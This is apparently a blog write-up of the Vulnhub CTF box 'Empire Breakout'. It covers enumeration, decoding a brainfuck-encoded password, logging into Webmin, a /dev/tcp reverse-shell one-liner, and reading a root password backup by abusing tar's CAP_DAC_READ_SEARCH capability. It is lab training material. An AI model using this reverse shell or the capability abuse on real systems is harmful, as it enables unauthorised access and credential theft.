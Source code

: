 ```yaml
---
title: Vulnhub - Empire Breakout Writeup
date: 2022-02-10 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, ffuf, easy, privlege-escalation]
---
```


## Intro  
[Breakout](https://www.vulnhub.com/entry/empire-breakout,751/) is an easy box freely available on [vulnhub](https://www.vulnhub.com/) website. The author of the box describes it as a CTF styled box and it need a fair amount of enumeration just like the previous Empire box. And as usual, we can expect two flags:
* User flag
* Root flag  

So let's start!

## Enumeration

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial. And moreover the box description asks us to enumerate as much as we can.  

```
nmap -sC -sV -p- --open -oN nmap_scan 192.168.146.128
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -p: Specify which port range to scan. Adding '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan](/assets/breakout/nmap.png)

Here we have the following ports open with their respective services
1. 80: Running Apache Webserver
2. 139 & 445 : Running Samba
3. 10000: Running Webmin version 1.981
4. 20000: Running Webmin version 1.830

Taking a look at the website served by the webserver, It seemingly looks like an apache default page. 

![breakout_web](/assets/breakout/breakout_web.png)

On visiting the source for the default page, there was an unusual amount of free space at the end of the page. After continuous scrolling we came across a cipher text of sorts.

![breakout_cipher](/assets/breakout/breakout_cipher.png)

Let's analyse this cipher with the help of a tool like decode.fr's cipher analyser.

![cipher_analysis](/assets/breakout/ciper_breakout.png)

It's a brainfuck cipher. This was the first time I came across this one. Let's get this decypted.

![brain_decoded](/assets/breakout/brain_decoded.png)

It seems to be some kind of a possible password or could just be a credential to something.  
Next we also have samba running on the server, Let's enumerate that. I will use enum4linux for the same

```
enum4linux -a 192.168.146.128
```
I couldn't find any kind of access window to the server but we did find a local user.

![breakout_user](/assets/breakout/breakout_user.png)

## Initial Access

We don't have a SSH interface enabled to try the credentials we found after decrypting the cipher but we do have webmin interface. Let's try the credentials there.
The Webmin service running on port 20000 accepted our credentials.

![cyber_webmin](/assets/breakout/webmin_cyber.png)

We can easily get a shell in the webmin environment, you can work with that as well, but I switched to the terminal using a simple revese shell.
```
sh -i >& /dev/tcp/192.168.146.131/9001 0>&1
```
![Webmin_shell](/assets/breakout/webmin_cmd.png)

After getting the shell, I stablilised it. I used the following command to stabilise the shell. Once again, it is not necessary to stablise the shell but since we are going to be working with it, it's just recommended to have some minimum functionality.

```
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
(press CTRL+Z)
stty raw -echo;fg;reset
```

Now in the home directory we have the user flag and a suspicious looking tar binary owned by root which we can execute. Whenever you come across a misplaced binary like that in a CTF, it is most likely that it will be the key to the box. 

![cyber_ls](/assets/breakout/cyber_ls.png)

## Privilege Escalation

Doing a little bit of enumeration on the machine, we can see that there is a old_pass.bak file located in /var/backups but we don't have the required permissions to view the file contents.

![old_pass](/assets/breakout/old_pass.png)

Let's get back to the tar binary and see if we can do anything with it. To begin with, since there are no special permissions, we will look into the capabilities of the file. It is different than the permissions which a file have. You can get more info about the capabilities and the different capabilities which exists [here](https://man7.org/linux/man-pages/man7/capabilities.7.html). We will use the following command to check the capabilities. 

```
getcap tar
```
![getcap](/assets/breakout/getcap_tar.png)

It has the following capability:  
CAP_DAC_READ_SEARCH - It means that it can read all the files on the system irrespective of their permissions.

We can compress the contents of the old_pass.bak file in a tarball and then extract it. This should provide us the the required permissions to view the contents of the file.
```
./tar -cf pass.tar /var/backups/.old_pass.bak
tar -xf pass.tar 
cat var/backups/.old_pass.bak
```
![su_pass](/assets/breakout/Su_pass.png)

We have got the root password now it seems. Using these credential we can log into the root account and we can get access to the root flag as well now.

![root](/assets/breakout/root.png)

With this we have successfully completed this machine.